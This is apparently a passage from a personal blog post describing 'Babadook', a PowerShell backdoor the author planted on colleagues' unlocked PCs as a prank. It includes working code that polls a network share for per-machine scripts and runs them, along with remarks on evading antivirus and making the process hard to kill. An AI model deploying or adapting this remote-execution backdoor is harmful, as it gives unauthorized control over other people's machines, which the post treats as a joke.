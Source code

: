 {{< highlight powershell >}}
$SharePath = "\\ournas\ourteamfolder\somesubfolder"
$MyPID = $([System.Diagnostics.Process]::GetCurrentProcess()).Id
$Interval = 10
$CurrMachineCmdPath = "$($SharePath)\cmd.$($env:COMPUTERNAME).$($MyPID).ps1"

# ... some code

# Command parsing loop
While ($true) {
            
    If (Test-Path $CurrMachineCmdPath) {
        Try {
            & $CurrMachineCmdPath
            Clear-Content $CurrMachineCmdPath
        } Catch [system.exception] {
            Log "Error running script: $_"
        }# end :: try/catch
    }# end :: if

    Start-Sleep $Interval
}#end :: while
{{< /highlight >}}

So by using the shared folder strategy and using powershell I&#8217;d solve the isolation problem AND the antivirus problem at once. I&#8217;ve added `Clear-Content` so the script would only run the code once.

I&#8217;ve skipped lunch for a day and rigged a quick and dirty POC. Tested on my machine, found a colleague that had left the machine unlocked and BAM, it was working.

After some days of fun, they started figuring out and killing my powershell process from the task manager. I needed to make the backdoor resilient.

## Enter Babadook

The name came from an excellent scary movie (I trully recomend you to watch it!) I&#8217;d seen a while ago called <a href="http://www.imdb.com/title/tt2321549/" target="_blank">The Babadook @ IMDB</a>, which had the quote _&#8220;If it&#8217;s in a word or in a look, you can&#8217;t get rid of the Babadook&#8221;_. 

That&#8217;s the motto I would follow to my backdoor. Make it unkillable as long as reasonably possible. Stealthiness wasn&#8217;t a big deal. Once I&#8217;d started playing the _&#8220;Super Mario Theme Song&#8221;_ on their PC Speakers my presence would be spotted. 

I kinda also wanted them to know and after some while after they came back to their stations and realized they had left it unlocked, they knew they had been pranked.

<img src="https://wroot.org/wp/wp-content/uploads/2015/07/the-babadook.jpg" alt="The Babadook" width="687" height="444" class="aligncenter size-full wp-image-54017" srcset="https://wroot.org/wp/wp-content/uploads/2015/07/the-babadook.jpg 687w, https://wroot.org/wp/wp-content/uploads/2015/07/the-babadook-300x194.jpg 300w" sizes="(max-width: 687px) 100vw, 687px" />

### Multi-threading and the Watchdog routine


 [1]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa383607(v=vs.85).aspx
 [2]: https://github.com/jseidl/Babadook